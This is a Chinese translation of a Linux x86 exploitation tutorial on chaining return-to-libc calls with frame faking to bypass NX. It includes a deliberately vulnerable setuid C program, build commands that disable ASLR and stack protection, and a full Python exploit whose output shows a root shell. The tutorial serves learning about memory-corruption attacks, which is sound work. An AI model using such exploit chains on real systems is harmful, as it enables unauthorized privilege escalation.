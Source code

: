 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc链接绕过NX](http://www.csyssec.org/20170101/chainingreturntolibc)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04(x86) 

## 什么是Return-to-libc链接

在前文中可以看出，攻击者需要调用多个libc函数才能成功利用漏洞。一种链接libc函数的简单方法就是将不同libc函数依次放在栈中。但由于函数参数的原因，这是不可能的。现在你可能还不明白，没关系，继续往下读就好。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
注意: 上述代码和前文中的(vuln_priv.c)一样。  

编译命令:

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
正如前文所说，链接seteuid,system和exit函数能允许我们利用漏洞代码”vuln”。但并没有这么简单直接，主要在于下面这两个问题：  

1.攻击者需要将两个libc函数参数或者其中一个libc函数参数与另一个libc函数地址放在栈的同一位置。显然这是不可能的(如下图所示)  
2.seteuid_arg必须为0.由于我们的缓冲区溢出是由strcpy操作引起的，0变成了一个不好的字符。比如，strcpy函数不会将0之后的字符拷贝到栈中。  
![](../pictures/chainreturntolibc1.jpeg)  


我们来看看如何解决上述两个问题。  

问题1: 为解决这个问题，Nergal在 [phrack](http://phrack.org/issues/58/4.html) 中提出了两个聪明的技术  

* ESP上升(ESP Lifting)
* 帧欺骗(Frame fakeing)
由于ESP lifting技术要求二进制文件在编译的时候不能设置选项 `-fomit-frame-pointer` ，这里我们只谈帧欺骗技术。 由于我们的二进制文件(vuln)含有帧指针，只好采用帧欺骗技术。     

## 什么是帧欺骗

这项技术不去覆盖返回地址，而是直接覆盖libc函数地址(这个例子中的seteuid函数)，我们采用”leave ret”指令来覆盖。 这让攻击者有机会将函数参数存放在栈中而不必有任何交叉，而且能调用相应的libc函数，并不会带来任何问题。  

栈布局 如下面栈布局所示，帧指针攻击者溢出栈并成功链接libc函数: seteuid, system与exit：  
![](../pictures/chainreturntolibc2.png)   



上图中红色强调的部分是”leave ret”指令调用其上方libc函数的返回地址。举个例子，第一条”leave ret”指令(位于栈地址0xbffff1fc处)调用seteuid()，第二条”leave ret”指令(位于栈地址0xbffff20c处)调用system()，第三条”leave ret”指令(位于栈地址0xbffff21c处)调用exit().  

## leave ret指令是如何调用其上方libc函数的 

为了回答这个问题，首先我们要了解”leave”指令。一条”leave”指令可以翻译成:  

```
mov ebp,esp            //esp = ebp
pop ebp                //ebp = *esp
```
我们来反汇编main()函数，以便更进一步了解“leave ret”指令

``` 
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Main尾声代码:  

如上述栈布局所示，在main函数尾声代码执行之前，攻击者已经溢出栈并用fake_ebp0(0xbffff204)覆盖了main函数的ebp，以及利用”leave ret”指令地址(0x0804851c)覆盖了其返回地址。 现在当CPU要执行main函数的尾声代码时，EIP指向text地址0x0804851c（”leave ret”)。在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff1f8
 	- ebp = 0xbffff204, esp = 0xbffff1fc
* ‘ret’执行”leave ret”指令(位于栈地址0xbffff1fc处)

seteuid: 现在EIP又重新指向text地址0x0804851c(“leave ret”). 在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff204
 	- ebp = 0xbffff214, esp =0xbffff208
* ‘ret’执行seteuid()(位于栈地址0xbffff208). 为了能成功调用seteuid,seteuid_arg必须放在栈地址0xbffff210的偏移量8处(比如seteuid_add）
* 调用seteuid()后，”leave ret”指令(位于栈地址0xbffff20c处)开始执行

可以从上面的栈布局看出，执行上述过程，栈已经按照攻击者的意图设置好，system和exit函数都能得到执行。  

问题2: 在我们的例子中，seteuid必须为0. 但0已经变成一个不好的字符，如何将0写在栈地址0xbffff210处呢？Nergal的同一篇文中讲了一个简单的方法。在链接libc相关函数时，前几个调用可以是strcpy函数(其将一个NULL字节拷贝到seteuid_arg在栈中的位置)。  

注意: 但不幸地是我的libc.so.6中strcpy函数的地址是0xb7ea6200。 libc函数地址本身包含一个NULL字节(不好的字符!)。 因此，strcpy不能成功地利用漏洞代码。sprintf（函数地址是0xb7e6e8d0)可以用来替代strcpy。使用sprintf时，NULL字节被拷贝到seteuid_arg在栈中的位置。    

注：因为seteuid 参数为0，而我们漏洞代码中使用的是strcpy，故不能直接把参数的位置覆盖为0，这样会导致截断，故只能借助函数调用的方式把参数覆盖为0，同理因为这时strcpy 的函数地址包含null 字节，故不能使用strcpy，这里使用 sprintf 替换。  

因此链接下面的libc函数可以解决上面提到的两个问题并成功获取root shell:  

sprintf|sprintf|sprintf|sprintf|seteuid|system|exit  
漏洞利用代码:  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
fake_ebp0 = 0xbffff1a0
fake_ebp1 = 0xbffff1b8
fake_ebp2 = 0xbffff1d0
fake_ebp3 = 0xbffff1e8
fake_ebp4 = 0xbffff204
fake_ebp5 = 0xbffff214
fake_ebp6 = 0xbffff224
fake_ebp7 = 0xbffff234
leave_ret = 0x0804851c
sprintf_addr = 0xb7e6e8d0
seteuid_addr = 0xb7f09720
system_addr = 0xb7e61060
exit_addr = 0xb7e54be0
sprintf_arg1 = 0xbffff210
sprintf_arg2 = 0x80485f0
sprintf_arg3 = 0xbffff23c
system_arg = 0x804829d
exit_arg = 0xffffffff
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A"*264  
buf += conv(fake_ebp0) 
buf += conv(leave_ret) 
#Below four stack frames are for sprintf (to setup seteuid arg )
buf += conv(fake_ebp1) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp2) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp3) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp4) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3)
#Dummy - To avoid null byte in fake_ebp4. 
buf += "X" * 4 
#Below stack frame is for seteuid
buf += conv(fake_ebp5) 
buf += conv(seteuid_addr) 
buf += conv(leave_ret) 
#Dummy - This arg is zero'd by above four sprintf calls
buf += "Y" * 4 
#Below stack frame is for system
buf += conv(fake_ebp6) 
buf += conv(system_addr) 
buf += conv(leave_ret) 
buf += conv(system_arg) 
#Below stack frame is for exit
buf += conv(fake_ebp7) 
buf += conv(exit_addr) 
buf += conv(leave_ret) 
buf += conv(exit_arg) 
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码就可以拿到root shell!!!

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����������������\��������������\��������������\�������������\��� �������AAAA0�������Ѕ
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
现在已经成功绕过NX,下一篇文章让我们来看看如果绕过ASLR.  